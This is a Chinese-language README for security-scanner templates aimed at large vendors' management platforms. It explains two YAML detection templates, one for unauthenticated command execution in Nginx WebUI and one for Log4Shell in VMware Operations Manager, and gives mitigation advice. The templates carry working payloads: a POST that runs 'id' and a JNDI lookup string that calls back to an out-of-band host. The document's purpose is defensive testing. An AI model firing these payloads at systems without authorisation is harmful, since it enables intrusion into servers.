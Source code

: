 # 大厂厂商平台安全模板分类说明

本目录聚焦于各类大型厂商自研或广泛部署的管理平台、运维系统等的安全风险，涵盖远程代码执行、未授权访问、信息泄露等典型漏洞，帮助安全测试人员快速定位和验证相关风险。

---

## 典型漏洞模板举例

### Nginx WebUI 远程命令执行漏洞

**模板文件**：`nginx-webui-rce.yaml`

#### 漏洞简介

Nginx WebUI 是一款常见的 Nginx 可视化管理面板。部分版本存在远程命令执行漏洞，攻击者可通过特定接口传入恶意命令，无需认证即可在服务器上执行任意系统命令，危害极大。

#### 漏洞原理

该漏洞源于 WebUI 后台接口对用户输入的命令参数缺乏有效校验和权限控制。攻击者可直接向相关接口（如 `/admin/api/nginx/reload` 或 `/admin/api/nginx/exec`）提交包含恶意命令的请求，服务端未做过滤直接执行，导致远程命令执行。

#### 检测逻辑（YAML内容解析）

```yaml
id: nginx-webui-rce

http:
  - method: POST
    path:
      - "/admin/api/nginx/exec"
    headers:
      Content-Type: application/json
    body: |
      {
        "command": "id"
      }
    matchers:
      - type: word
        part: body
        words:
          - "uid="
          - "gid="
```

- 发送包含系统命令（如 `id`）的 POST 请求到命令执行接口。
- 若响应体中出现 `uid=`、`gid=` 等系统命令输出，则判定存在远程命令执行漏洞。

#### 防护建议

- 升级 Nginx WebUI 至官方修复版本。
- 对命令执行接口添加严格的认证和权限校验。
- 对用户输入进行严格校验，禁止拼接和执行外部命令。

---

### VMware Operation Manager Log4j 远程代码执行漏洞

**模板文件**：`vmware-operation-manager-log4j.yaml`

#### 漏洞简介

VMware Operation Manager 集成了受影响版本的 Apache Log4j 组件，存在 JNDI 注入导致远程代码执行（Log4Shell，CVE-2021-44228）风险。攻击者可通过构造恶意请求，在无需认证的情况下远程执行任意命令，危害极大。

#### 漏洞原理

Log4j 在处理日志消息时，如果日志内容中包含 `${jndi:ldap://...}` 这样的字符串，会自动发起远程请求并加载恶意类，导致远程代码执行。攻击者可将 JNDI payload 注入到如 User-Agent、X-Api-Version 等 HTTP 头部，触发漏洞。

#### 检测逻辑（YAML内容解析）

```yaml
id: vmware-operation-manager-log4j

http:
  - method: GET
    path:
      - "/"
    headers:
      User-Agent: "${jndi:ldap://{{interactsh-url}}/a}"
    matchers:
      - type: word
        part: interactsh_protocol
        words:
          - "ldap"
```

- 发送带有 JNDI payload 的请求到 Operation Manager 接口。
- 通过 OOB（如 interactsh）检测是否有 LDAP 请求回连，判定目标存在该漏洞。

#### 防护建议

- 升级 VMware Operation Manager 及其依赖的 Log4j 组件至官方修复版本。
- 禁用 Log4j 的 JNDI 功能，或限制其加载远程类的能力。
- 对所有用户输入进行严格校验，避免日志记录敏感或可控内容。

---